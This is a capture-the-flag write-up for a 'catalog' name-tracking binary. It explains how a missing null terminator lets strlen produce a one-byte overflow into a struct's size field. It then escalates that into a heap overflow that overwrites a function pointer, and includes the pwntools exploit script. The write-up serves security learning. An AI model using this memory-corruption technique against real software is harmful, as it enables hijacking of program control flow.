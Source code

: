 # catalog
## slopey | 1/3/2021

TL;DR: 1 byte overflow into size field, increase size and overwrite function pointer

## Background

We are given a simple name tracking utility.
```
[slopey@mariner Catalog]$ ./catalog
Menu:
 1. Write name
 2. Edit name
 3. Print name
 0. Exit
> 1
name: asdf
Menu:
 1. Write name
 2. Edit name
 3. Print name
 0. Exit
> 2
index: 0
name: dog
Menu:
 1. Write name
 2. Edit name
 3. Print name
 0. Exit
> 3
index: 0
name: dog
```
Let's check the securities:
```
[slopey@mariner Catalog]$ checksec catalog
[*] 'catalog'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Reversing

First, in the `write_name` function, we can identify the struct that is being used to keep track of names. It should look like this:

| Type               | Variable   | Size
|--------------------|------------|-----
| char[0x20]         | name       | 0x20
| long               | size       | 0x8
| (void \*)(char \*) | print_name | 0x8

### write_name

![write_name function](write_name.png)

The write name function simply iterates through the global catalog array until it finds an empty spot and places a struct pointer there. There are two vulnerabilities here:
1. **Global buffer overflow:** We can trigger an array out of bounds write, since there is no bounding check if the empty spot is outside of the array.
2. **One-byte overflow:** strlen returns 0x21 if the name buffer is full instead of 0x20. We will discuss this further in the exploitation section.

### edit_name

![edit_name](edit_name.png)

The edit name function read `size` bytes into the name buffer. It is a very simple function, but this is the crux of our exploitation.

## Exploitation
Let's further analyze the two vulnerabilities we found in reversing. The first vulnerability, the global buffer overflow, is a red herring and is absolutely useless for exploitation. This is because the GOT table exists before the BSS section, where global variables are stored, so we cannot overwrite the GOT table. Furthermore, we can't write into heap addresses either since ASLR is enabled, meaning there is going to be a large gap between the BSS and heap section where we don't have write permissions.

The one-byte overflow is a much more suitable target. First, let's understand why it exists. Consider the structure of the Name struct as presented above. strlen iterates across a char pointer until it comes across a null byte. Now consider a case where the name buffer is full. Since `read` doesn't terminate strings with a null byte, strlen will keep searching *beyond* the name buffer, into the size field. The size field will only be one byte (0x20), so strlen will actually return 0x21 bytes. This gives us a 1 byte overflow into the size field, which we can use to modify the size of the name struct to a much larger size, escalating our 1 byte overflow into a massive heap overflow, which we can then use to modify the print_name pointer to the win function. Simply printing the name will give us the flag.

## Code
First, let's allocate a 0x20 size name buffer. Note that a newline is appended after the As, so it is actually 0x20 bytes.
```py
r.recvuntil("> ")
r.sendline("1")
r.recvuntil("name: ")
r.sendline("A" * 0x1f)
```
Next, let's overflow the size field. Keep in mind that I use a buffering trick here to avoid writing a newline character into the size field. Since at the beginning the program is defined with full buffering, we can simply supply 0x20 bytes, plus "2". 2 gets buffered since the read call only reads in 0x20 bytes, and later, when the program returns to the main function and asks the user for a selection, 2 is flushed from the buffer.
```py
r.recvuntil("> ")
r.sendline("2")
r.recvuntil("index: ")
r.sendline("0")
r.recvuntil("name: ")
# 2 is buffer to stdin so newline isn't read into the name field
r.sendline(b"A" * 0x20 + p8(0xff) + b"2")
```
Now, we can simply call edit again on the name struct and overflow the function pointer.
```py
r.recvuntil("index: ")
r.sendline("0")
r.recvuntil("name: ")
payload = b"A" * 0x20              # name buffer
payload += b"A" * 0x8              # size
payload += p64(exe.symbols["win"]) # print_name func
r.sendline(payload)
```
Next, let's print the buffer, which will call the function pointer.
```

r.recvuntil("> ")
r.sendline("3")
r.recvuntil("index: ")
r.sendline("0")
log.success(r.recvline().strip().decode())
```
And we get our flag!
